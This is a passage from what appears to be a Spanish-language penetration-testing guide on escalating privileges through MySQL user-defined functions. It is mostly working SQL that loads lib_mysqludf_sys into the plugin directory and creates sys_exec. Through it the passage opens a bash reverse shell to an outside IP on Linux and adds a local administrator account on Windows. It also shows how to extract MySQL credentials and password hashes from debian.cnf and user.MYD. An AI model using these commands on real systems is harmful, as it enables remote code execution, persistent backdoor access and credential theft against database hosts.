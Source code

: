 Ahora que ya tenemos ubicada nuestra librería, nos conectamos al servidor MySQL como root y realizamos los siguiente:

#### Linux

```sql
# Use a database
use mysql;
# Create a table to load the library and move it to the plugins dir
create table npn(line blob);
# Load the binary library inside the table
## You might need to change the path and file name
insert into npn values(load_file('/tmp/lib_mysqludf_sys.so'));
# Get the plugin_dir path
show variables like '%plugin%';
# Supposing the plugin dir was /usr/lib/x86_64-linux-gnu/mariadb19/plugin/
# dump in there the library
select * from npn into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/lib_mysqludf_sys.so';
# Create a function to execute commands
create function sys_exec returns integer soname 'lib_mysqludf_sys.so';
# Execute commands
select sys_exec('id > /tmp/out.txt; chmod 777 /tmp/out.txt');
select sys_exec('bash -c "bash -i >& /dev/tcp/10.10.14.66/1234 0>&1"');
```

#### Windows

```sql
# CHech the linux comments for more indications
USE mysql;
CREATE TABLE npn(line blob);
INSERT INTO npn values(load_files('C://temp//lib_mysqludf_sys.dll'));
show variables like '%plugin%';
SELECT * FROM mysql.npn INTO DUMPFILE 'c://windows//system32//lib_mysqludf_sys_32.dll';
CREATE FUNCTION sys_exec RETURNS integer SONAME 'lib_mysqludf_sys_32.dll';
SELECT sys_exec("net user npn npn12345678 /add");
SELECT sys_exec("net localgroup Administrators npn /add");
```

### Extraer credenciales de MySQL de otros archivos

#### /etc/mysql/debian.cnf

Dentro del mismo podemos encontrar credenciales en texto claro del usuario **`debian-sys-maint`** y estos credenciales se pueden utilizar para loguearse en MySQL.

#### _/var/lib/mysql/mysql/user.MYD_

Se pueden encontrar todos los hashes que se pueden extraer de mysql.user.

```bash
grep -oaE "[-_\.\*a-Z0-9]{3,}" /var/lib/mysql/mysql/user.MYD | 
grep -v "mysql_native_password"
```
